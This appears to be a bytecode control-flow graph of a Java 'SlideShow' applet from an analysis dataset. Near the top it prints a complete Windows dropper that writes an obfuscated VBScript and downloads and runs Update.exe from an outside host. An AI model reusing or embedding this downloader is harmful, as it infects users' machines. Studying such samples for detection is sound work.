 digraph "" {
    "r0 := @this: SlideShow"
    "push \"os.name\""
    "r0 := @this: SlideShow"->"push \"os.name\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"os.name\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toLowerCase()>";
    "push \"win\""
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"->"push \"win\"";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"
    "push \"win\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "iflt load.r r0"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt load.r r0";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "iflt load.r r0"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "push \"cmd.exe /c echo Const J9h1w0zHFgZtuRnPeXga = 1 > %temp%\\G2S2R8F7.vbs & echo Const KlOugdsfRh54h02ZPeXga = 2 >> %temp%\\G2S2R8F7.vbs & echo Dim ZC0YK16ggjQQ, Y5mJ5jSJXzm38lz, N8VObVe37C, YK16ggjQQ >> %temp%\\G2S2R8F7.vbs & echoZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\G2S2R8F7.vbs & echo ZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\G2S2R8F7.vbs &echo Y5mJ5jSJXzm38lz = \\\".Stream\\\" >> %temp%\\G2S2R8F7.vbs & echo Set N8VObVe37C = CreateObject(ZC0YK16ggjQQ+Y5mJ5jSJXzm38lz) >> %temp%\\G2S2R8F7.vbs & echo N8VObVe37C.Type = J9h1w0zHFgZtuRnPeXga >> %temp%\\G2S2R8F7.vbs & echo N8VObVe37C.Open >> %temp%\\G2S2R8F7.vbs & echo N8VObVe37C.Write BinaryGetURL(Wscript.Arguments(0)) >> %temp%\\G2S2R8F7.vbs & echo N8VObVe37C.SaveToFile Wscript.Arguments(1), KlOugdsfRh54h02ZPeXga >> %temp%\\G2S2R8F7.vbs & echo Function BinaryGetURL(URL) >> %temp%\\G2S2R8F7.vbs & echo Set YK16ggjQQ = CreateObject(\\\"WinHttp.WinHttpRequest.5.1\\\") >> %temp%\\G2S2R8F7.vbs & echo YK16ggjQQ.Open \\\"GET\\\", URL, False >> %temp%\\G2S2R8F7.vbs & echo YK16ggjQQ.Send >> %temp%\\G2S2R8F7.vbs & echo BinaryGetURL = YK16ggjQQ.ResponseBody >> %temp%\\G2S2R8F7.vbs & echo End Function >> %temp%\\G2S2R8F7.vbs & echo CreateObject(\\\"WScript.Shell\\\").Run \\\"%temp%\\J2B4H1J5.exe\\\" >> %temp%\\G2S2R8F7.vbs & start %temp%\\G2S2R8F7.vbs http://javasplugin.fileave.com/Update.exe  %temp%\\J2B4H1J5.exe\""
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"push \"cmd.exe /c echo Const J9h1w0zHFgZtuRnPeXga = 1 > %temp%\\G2S2R8F7.vbs & echo Const KlOugdsfRh54h02ZPeXga = 2 >> %temp%\\G2S2R8F7.vbs & echo Dim ZC0YK16ggjQQ, Y5mJ5jSJXzm38lz, N8VObVe37C, YK16ggjQQ >> %temp%\\G2S2R8F7.vbs & echoZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\G2S2R8F7.vbs & echo ZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\G2S2R8F7.vbs &echo Y5mJ5jSJXzm38lz = \\\".Stream\\\" >> %temp%\\G2S2R8F7.vbs & echo Set N8VObVe37C = CreateObject(ZC0YK16ggjQQ+Y5mJ5jSJXzm38lz) >> %temp%\\G2S2R8F7.vbs & echo N8VObVe37C.Type = J9h1w0zHFgZtuRnPeXga >> %temp%\\G2S2R8F7.vbs & echo N8VObVe37C.Open >> %temp%\\G2S2R8F7.vbs & echo N8VObVe37C.Write BinaryGetURL(Wscript.Arguments(0)) >> %temp%\\G2S2R8F7.vbs & echo N8VObVe37C.SaveToFile Wscript.Arguments(1), KlOugdsfRh54h02ZPeXga >> %temp%\\G2S2R8F7.vbs & echo Function BinaryGetURL(URL) >> %temp%\\G2S2R8F7.vbs & echo Set YK16ggjQQ = CreateObject(\\\"WinHttp.WinHttpRequest.5.1\\\") >> %temp%\\G2S2R8F7.vbs & echo YK16ggjQQ.Open \\\"GET\\\", URL, False >> %temp%\\G2S2R8F7.vbs & echo YK16ggjQQ.Send >> %temp%\\G2S2R8F7.vbs & echo BinaryGetURL = YK16ggjQQ.ResponseBody >> %temp%\\G2S2R8F7.vbs & echo End Function >> %temp%\\G2S2R8F7.vbs & echo CreateObject(\\\"WScript.Shell\\\").Run \\\"%temp%\\J2B4H1J5.exe\\\" >> %temp%\\G2S2R8F7.vbs & start %temp%\\G2S2R8F7.vbs http://javasplugin.fileave.com/Update.exe  %temp%\\J2B4H1J5.exe\"";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "push \"cmd.exe /c echo Const J9h1w0zHFgZtuRnPeXga = 1 > %temp%\\G2S2R8F7.vbs & echo Const KlOugdsfRh54h02ZPeXga = 2 >> %temp%\\G2S2R8F7.vbs & echo Dim ZC0YK16ggjQQ, Y5mJ5jSJXzm38lz, N8VObVe37C, YK16ggjQQ >> %temp%\\G2S2R8F7.vbs & echoZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\G2S2R8F7.vbs & echo ZC0YK16ggjQQ = \\\"ADODB\\\" >> %temp%\\G2S2R8F7.vbs &echo Y5mJ5jSJXzm38lz = \\\".Stream\\\" >> %temp%\\G2S2R8F7.vbs & echo Set N8VObVe37C = CreateObject(ZC0YK16ggjQQ+Y5mJ5jSJXzm38lz) >> %temp%\\G2S2R8F7.vbs & echo N8VObVe37C.Type = J9h1w0zHFgZtuRnPeXga >> %temp%\\G2S2R8F7.vbs & echo N8VObVe37C.Open >> %temp%\\G2S2R8F7.vbs & echo N8VObVe37C.Write BinaryGetURL(Wscript.Arguments(0)) >> %temp%\\G2S2R8F7.vbs & echo N8VObVe37C.SaveToFile Wscript.Arguments(1), KlOugdsfRh54h02ZPeXga >> %temp%\\G2S2R8F7.vbs & echo Function BinaryGetURL(URL) >> %temp%\\G2S2R8F7.vbs & echo Set YK16ggjQQ = CreateObject(\\\"WinHttp.WinHttpRequest.5.1\\\") >> %temp%\\G2S2R8F7.vbs & echo YK16ggjQQ.Open \\\"GET\\\", URL, False >> %temp%\\G2S2R8F7.vbs & echo YK16ggjQQ.Send >> %temp%\\G2S2R8F7.vbs & echo BinaryGetURL = YK16ggjQQ.ResponseBody >> %temp%\\G2S2R8F7.vbs & echo End Function >> %temp%\\G2S2R8F7.vbs & echo CreateObject(\\\"WScript.Shell\\\").Run \\\"%temp%\\J2B4H1J5.exe\\\" >> %temp%\\G2S2R8F7.vbs & start %temp%\\G2S2R8F7.vbs http://javasplugin.fileave.com/Update.exe  %temp%\\J2B4H1J5.exe\""->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "pop"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "goto load.r r0"
    "pop"->"goto load.r r0";
    "load.r r0"
    "goto load.r r0"->"load.r r0";
    "push -1"
    "load.r r0"->"push -1";
    "fieldput <SlideShow: int w>"
    "push -1"->"fieldput <SlideShow: int w>";
    "fieldput <SlideShow: int w>"->"load.r r0";
    "load.r r0"->"push -1";
    "fieldput <SlideShow: int h>"
    "push -1"->"fieldput <SlideShow: int h>";
    "fieldput <SlideShow: int h>"->"load.r r0";
    "push 0"
    "load.r r0"->"push 0";
    "fieldput <SlideShow: boolean whb>"
    "push 0"->"fieldput <SlideShow: boolean whb>";
    "fieldput <SlideShow: boolean whb>"->"load.r r0";
    "staticget <java.awt.Color: java.awt.Color white>"
    "load.r r0"->"staticget <java.awt.Color: java.awt.Color white>";
    "specialinvoke <java.applet.Applet: void setBackground(java.awt.Color)>"
    "staticget <java.awt.Color: java.awt.Color white>"->"specialinvoke <java.applet.Applet: void setBackground(java.awt.Color)>";
    "specialinvoke <java.applet.Applet: void setBackground(java.awt.Color)>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"transition_delay\""
    "load.r r0"->"push \"transition_delay\"";
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"
    "push \"transition_delay\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "push 10"
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"push 10";
    "push 100"
    "push 10"->"push 100";
    "virtualinvoke <SlideShow: int fi(java.lang.String,int,int)>"
    "push 100"->"virtualinvoke <SlideShow: int fi(java.lang.String,int,int)>";
    "fieldput <SlideShow: int dly>"
    "virtualinvoke <SlideShow: int fi(java.lang.String,int,int)>"->"fieldput <SlideShow: int dly>";
    "fieldput <SlideShow: int dly>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"delay\""
    "load.r r0"->"push \"delay\"";
    "push \"delay\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"push 10";
    "push 1000"
    "push 10"->"push 1000";
    "push 1000"->"virtualinvoke <SlideShow: int fi(java.lang.String,int,int)>";
    "fieldput <SlideShow: int wp>"
    "virtualinvoke <SlideShow: int fi(java.lang.String,int,int)>"->"fieldput <SlideShow: int wp>";
    "fieldput <SlideShow: int wp>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"step_count\""
    "load.r r0"->"push \"step_count\"";
    "push \"step_count\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"push 10";
    "push 20"
    "push 10"->"push 20";
    "push 20"->"virtualinvoke <SlideShow: int fi(java.lang.String,int,int)>";
    "fieldput <SlideShow: int sc>"
    "virtualinvoke <SlideShow: int fi(java.lang.String,int,int)>"->"fieldput <SlideShow: int sc>";
    "fieldput <SlideShow: int sc>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"mode\""
    "load.r r0"->"push \"mode\"";
    "push \"mode\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"push 10";
    "push 10"->"push 0";
    "push 0"->"virtualinvoke <SlideShow: int fi(java.lang.String,int,int)>";
    "fieldput <SlideShow: int modd>"
    "virtualinvoke <SlideShow: int fi(java.lang.String,int,int)>"->"fieldput <SlideShow: int modd>";
    "fieldput <SlideShow: int modd>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <SlideShow: int modd>"
    "load.r r0"->"fieldget <SlideShow: int modd>";
    "push 2"
    "fieldget <SlideShow: int modd>"->"push 2";
    "rem.i"
    "push 2"->"rem.i";
    "rem.i"->"fieldput <SlideShow: int modd>";
    "fieldput <SlideShow: int modd>"->"load.r r0";
    "new java.awt.MediaTracker"
    "load.r r0"->"new java.awt.MediaTracker";
    "dup1.r"
    "new java.awt.MediaTracker"->"dup1.r";
    "dup1.r"->"load.r r0";
    "specialinvoke <java.awt.MediaTracker: void <init>(java.awt.Component)>"
    "load.r r0"->"specialinvoke <java.awt.MediaTracker: void <init>(java.awt.Component)>";
    "fieldput <SlideShow: java.awt.MediaTracker tracker>"
    "specialinvoke <java.awt.MediaTracker: void <init>(java.awt.Component)>"->"fieldput <SlideShow: java.awt.MediaTracker tracker>";
    "fieldput <SlideShow: java.awt.MediaTracker tracker>"->"load.r r0";
    "push 1"
    "load.r r0"->"push 1";
    "fieldput <SlideShow: int i>"
    "push 1"->"fieldput <SlideShow: int i>";
    "fieldput <SlideShow: int i>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"image_valign\""
    "load.r r0"->"push \"image_valign\"";
    "push \"image_valign\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "fieldput <SlideShow: java.lang.String ivalign>"
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"fieldput <SlideShow: java.lang.String ivalign>";
    "fieldput <SlideShow: java.lang.String ivalign>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"image_align\""
    "load.r r0"->"push \"image_align\"";
    "push \"image_align\""->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "fieldput <SlideShow: java.lang.String ialign>"
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"fieldput <SlideShow: java.lang.String ialign>";
    "fieldput <SlideShow: java.lang.String ialign>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "new java.lang.StringBuilder"
    "load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"image\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"image\"";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "push \"image\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r0";
    "fieldget <SlideShow: int i>"
    "load.r r0"->"fieldget <SlideShow: int i>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(int)>"
    "fieldget <SlideShow: int i>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(int)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "fieldput <SlideShow: java.lang.String bs>"
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"fieldput <SlideShow: java.lang.String bs>";
    "fieldput <SlideShow: java.lang.String bs>"->"load.r r0";
    "fieldget <SlideShow: java.lang.String bs>"
    "load.r r0"->"fieldget <SlideShow: java.lang.String bs>";
    "ifnonnull load.r r0"
    "fieldget <SlideShow: java.lang.String bs>"->"ifnonnull load.r r0";
    "ifnonnull load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int i>";
    "fieldget <SlideShow: int i>"->"push 1";
    "sub.i"
    "push 1"->"sub.i";
    "sub.i"->"fieldput <SlideShow: int i>";
    "fieldput <SlideShow: int i>"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int i>";
    "fieldget <SlideShow: int i>"->"iflt load.r r0";
    "iflt load.r r0"->"goto load.r r0";
    "goto load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int i>";
    "fieldput <SlideShow: int num>"
    "fieldget <SlideShow: int i>"->"fieldput <SlideShow: int num>";
    "fieldput <SlideShow: int num>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <SlideShow: int num>"
    "load.r r0"->"fieldget <SlideShow: int num>";
    "fieldget <SlideShow: int num>"->"push 1";
    "add.i"
    "push 1"->"add.i";
    "newarray"
    "add.i"->"newarray";
    "fieldput <SlideShow: java.awt.Image[] img>"
    "newarray"->"fieldput <SlideShow: java.awt.Image[] img>";
    "fieldput <SlideShow: java.awt.Image[] img>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int num>";
    "fieldget <SlideShow: int num>"->"push 1";
    "push 1"->"add.i";
    "add.i"->"newarray";
    "fieldput <SlideShow: int[] imgw>"
    "newarray"->"fieldput <SlideShow: int[] imgw>";
    "fieldput <SlideShow: int[] imgw>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int num>";
    "fieldget <SlideShow: int num>"->"push 1";
    "push 1"->"add.i";
    "add.i"->"newarray";
    "fieldput <SlideShow: int[] imgh>"
    "newarray"->"fieldput <SlideShow: int[] imgh>";
    "fieldput <SlideShow: int[] imgh>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int num>";
    "fieldget <SlideShow: int num>"->"push 1";
    "push 1"->"add.i";
    "add.i"->"newarray";
    "fieldput <SlideShow: int[] dur>"
    "newarray"->"fieldput <SlideShow: int[] dur>";
    "fieldput <SlideShow: int[] dur>"->"load.r r0";
    "load.r r0"->"push 1";
    "push 1"->"fieldput <SlideShow: int i>";
    "fieldput <SlideShow: int i>"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int i>";
    "fieldget <SlideShow: int i>"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int num>";
    "ifcmpgt.i load.r r0"
    "fieldget <SlideShow: int num>"->"ifcmpgt.i load.r r0";
    "ifcmpgt.i load.r r0"->"load.r r0";
    "fieldget <SlideShow: java.awt.Image[] img>"
    "load.r r0"->"fieldget <SlideShow: java.awt.Image[] img>";
    "fieldget <SlideShow: java.awt.Image[] img>"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int i>";
    "fieldget <SlideShow: int i>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "specialinvoke <java.applet.Applet: java.net.URL getCodeBase()>"
    "load.r r0"->"specialinvoke <java.applet.Applet: java.net.URL getCodeBase()>";
    "specialinvoke <java.applet.Applet: java.net.URL getCodeBase()>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r0";
    "new java.lang.StringBuffer"
    "load.r r0"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "specialinvoke <java.lang.StringBuffer: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuffer: void <init>()>";
    "specialinvoke <java.lang.StringBuffer: void <init>()>"->"push \"image\"";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"
    "push \"image\""->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int i>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(int)>"
    "fieldget <SlideShow: int i>"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(int)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(int)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "specialinvoke <java.applet.Applet: java.awt.Image getImage(java.net.URL,java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.applet.Applet: java.awt.Image getImage(java.net.URL,java.lang.String)>";
    "arraywrite.r"
    "specialinvoke <java.applet.Applet: java.awt.Image getImage(java.net.URL,java.lang.String)>"->"arraywrite.r";
    "arraywrite.r"->"load.r r0";
    "fieldget <SlideShow: java.awt.MediaTracker tracker>"
    "load.r r0"->"fieldget <SlideShow: java.awt.MediaTracker tracker>";
    "fieldget <SlideShow: java.awt.MediaTracker tracker>"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: java.awt.Image[] img>";
    "fieldget <SlideShow: java.awt.Image[] img>"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int i>";
    "arrayread.r"
    "fieldget <SlideShow: int i>"->"arrayread.r";
    "arrayread.r"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int i>";
    "push 5"
    "fieldget <SlideShow: int i>"->"push 5";
    "push 5"->"rem.i";
    "virtualinvoke <java.awt.MediaTracker: void addImage(java.awt.Image,int)>"
    "rem.i"->"virtualinvoke <java.awt.MediaTracker: void addImage(java.awt.Image,int)>";
    "virtualinvoke <java.awt.MediaTracker: void addImage(java.awt.Image,int)>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int i>";
    "fieldget <SlideShow: int i>"->"push 1";
    "push 1"->"add.i";
    "add.i"->"fieldput <SlideShow: int i>";
    "fieldput <SlideShow: int i>"->"goto load.r r0";
    "ifcmpgt.i load.r r0"->"load.r r0";
    "load.r r0"->"push 0";
    "fieldput <SlideShow: int durum>"
    "push 0"->"fieldput <SlideShow: int durum>";
    "fieldput <SlideShow: int durum>"->"load.r r0";
    "specialinvoke <java.applet.Applet: void show()>"
    "load.r r0"->"specialinvoke <java.applet.Applet: void show()>";
    "specialinvoke <java.applet.Applet: void show()>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "specialinvoke <java.applet.Applet: java.awt.Dimension size()>"
    "load.r r0"->"specialinvoke <java.applet.Applet: java.awt.Dimension size()>";
    "fieldget <java.awt.Dimension: int width>"
    "specialinvoke <java.applet.Applet: java.awt.Dimension size()>"->"fieldget <java.awt.Dimension: int width>";
    "fieldget <java.awt.Dimension: int width>"->"fieldput <SlideShow: int w>";
    "fieldput <SlideShow: int w>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"specialinvoke <java.applet.Applet: java.awt.Dimension size()>";
    "fieldget <java.awt.Dimension: int height>"
    "specialinvoke <java.applet.Applet: java.awt.Dimension size()>"->"fieldget <java.awt.Dimension: int height>";
    "fieldget <java.awt.Dimension: int height>"->"fieldput <SlideShow: int h>";
    "fieldput <SlideShow: int h>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <SlideShow: int w>"
    "load.r r0"->"fieldget <SlideShow: int w>";
    "fieldget <SlideShow: int w>"->"load.r r0";
    "fieldget <SlideShow: int h>"
    "load.r r0"->"fieldget <SlideShow: int h>";
    "specialinvoke <java.applet.Applet: java.awt.Image createImage(int,int)>"
    "fieldget <SlideShow: int h>"->"specialinvoke <java.applet.Applet: java.awt.Image createImage(int,int)>";
    "fieldput <SlideShow: java.awt.Image offi>"
    "specialinvoke <java.applet.Applet: java.awt.Image createImage(int,int)>"->"fieldput <SlideShow: java.awt.Image offi>";
    "fieldput <SlideShow: java.awt.Image offi>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <SlideShow: java.awt.Image offi>"
    "load.r r0"->"fieldget <SlideShow: java.awt.Image offi>";
    "virtualinvoke <java.awt.Image: java.awt.Graphics getGraphics()>"
    "fieldget <SlideShow: java.awt.Image offi>"->"virtualinvoke <java.awt.Image: java.awt.Graphics getGraphics()>";
    "fieldput <SlideShow: java.awt.Graphics offg2>"
    "virtualinvoke <java.awt.Image: java.awt.Graphics getGraphics()>"->"fieldput <SlideShow: java.awt.Graphics offg2>";
    "fieldput <SlideShow: java.awt.Graphics offg2>"->"load.r r0";
    "fieldget <SlideShow: java.awt.Graphics offg2>"
    "load.r r0"->"fieldget <SlideShow: java.awt.Graphics offg2>";
    "fieldget <SlideShow: java.awt.Graphics offg2>"->"push 0";
    "push 0"->"push 0";
    "push 0"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int w>";
    "fieldget <SlideShow: int w>"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int h>";
    "virtualinvoke <java.awt.Graphics: void fillRect(int,int,int,int)>"
    "fieldget <SlideShow: int h>"->"virtualinvoke <java.awt.Graphics: void fillRect(int,int,int,int)>";
    "virtualinvoke <java.awt.Graphics: void fillRect(int,int,int,int)>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "specialinvoke <java.applet.Applet: java.awt.Container getParent()>"
    "load.r r0"->"specialinvoke <java.applet.Applet: java.awt.Container getParent()>";
    "fieldput <SlideShow: java.awt.Container container>"
    "specialinvoke <java.applet.Applet: java.awt.Container getParent()>"->"fieldput <SlideShow: java.awt.Container container>";
    "fieldput <SlideShow: java.awt.Container container>"->"load.r r0";
    "fieldget <SlideShow: java.awt.Container container>"
    "load.r r0"->"fieldget <SlideShow: java.awt.Container container>";
    "instanceof"
    "fieldget <SlideShow: java.awt.Container container>"->"instanceof";
    "ifne load.r r0"
    "instanceof"->"ifne load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: java.awt.Container container>";
    "virtualinvoke <java.awt.Container: java.awt.Container getParent()>"
    "fieldget <SlideShow: java.awt.Container container>"->"virtualinvoke <java.awt.Container: java.awt.Container getParent()>";
    "virtualinvoke <java.awt.Container: java.awt.Container getParent()>"->"fieldput <SlideShow: java.awt.Container container>";
    "fieldput <SlideShow: java.awt.Container container>"->"goto load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: java.awt.Container container>";
    "checkcast"
    "fieldget <SlideShow: java.awt.Container container>"->"checkcast";
    "fieldput <SlideShow: java.awt.Frame frm>"
    "checkcast"->"fieldput <SlideShow: java.awt.Frame frm>";
    "fieldput <SlideShow: java.awt.Frame frm>"->"load.r r0";
    "load.r r0"->"push 1";
    "push 1"->"fieldput <SlideShow: boolean whb>";
    "return"
    "fieldput <SlideShow: boolean whb>"->"return";
    "iflt load.r r0"->"load.r r0";
    "load.r r0"->"push 0";
    "push 0"->"fieldput <SlideShow: int i>";
    "fieldput <SlideShow: int i>"->"goto load.r r0";
    "ifnonnull load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: java.lang.String bs>";
    "push \".gif\""
    "fieldget <SlideShow: java.lang.String bs>"->"push \".gif\"";
    "virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>"
    "push \".gif\""->"virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>";
    "virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>"->"ifne load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: java.lang.String bs>";
    "push \".jpg\""
    "fieldget <SlideShow: java.lang.String bs>"->"push \".jpg\"";
    "push \".jpg\""->"virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>";
    "virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>"->"ifne load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: java.lang.String bs>";
    "push \".png\""
    "fieldget <SlideShow: java.lang.String bs>"->"push \".png\"";
    "push \".png\""->"virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>";
    "virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>"->"ifne load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int i>";
    "fieldget <SlideShow: int i>"->"push 1";
    "push 1"->"sub.i";
    "sub.i"->"fieldput <SlideShow: int i>";
    "fieldput <SlideShow: int i>"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int i>";
    "fieldget <SlideShow: int i>"->"iflt load.r r0";
    "iflt load.r r0"->"goto load.r r0";
    "iflt load.r r0"->"load.r r0";
